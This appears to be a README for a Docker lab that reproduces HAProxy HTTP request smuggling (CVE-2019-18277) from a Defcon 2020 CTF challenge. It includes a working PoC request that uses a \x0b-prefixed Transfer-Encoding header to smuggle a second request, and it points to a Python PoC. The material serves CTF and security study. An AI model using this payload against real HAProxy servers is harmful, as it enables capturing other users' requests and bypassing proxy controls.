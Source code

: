 # HAProxy HTTP request smuggling

Defcon CTF 2020 Web uplooodit

HAProxy HTTP request smuggling - CVE-2019-18277

HAProxy < 2.0.6 + Flask with Gunicorn

### Composition
* ReverseProxy: HAProxy 1.9.10
* Backend: Gunicorn 20.0.0


### Usage
Run
```
$ chmod +x src/haproxy src/start.sh
$ docker-compose up
````
Go http://127.0.0.1:10082

Get 405 and 404 response
```bash
./check.sh
```

### PoC
HAProxy < 2.0.6 ignores Transfer-Encoding value start with \x0b or \x0c

Use Burp to send requests
First request
```
POST / HTTP/1.1
Host: 127.0.0.1:9999
Connection: keep-alive
Content-Length: 131
Transfer-Encoding:[\x0b]chunked

3
123
0

POST /files/ HTTP/1.1
X-guid: 782931c2-0573-48ef-8cec-46eb88761733
Content-Type: text/plain
Content-Length: 251
```

Second request
```
GET /files/782931c2-0573-48ef-8cec-46eb88761733 HTTP/1.1
```

Python Poc
```
python3 poc.py
```

### Reference:
* https://ctftime.org/task/11590
* https://nathandavison.com/blog/haproxy-http-request-smuggling
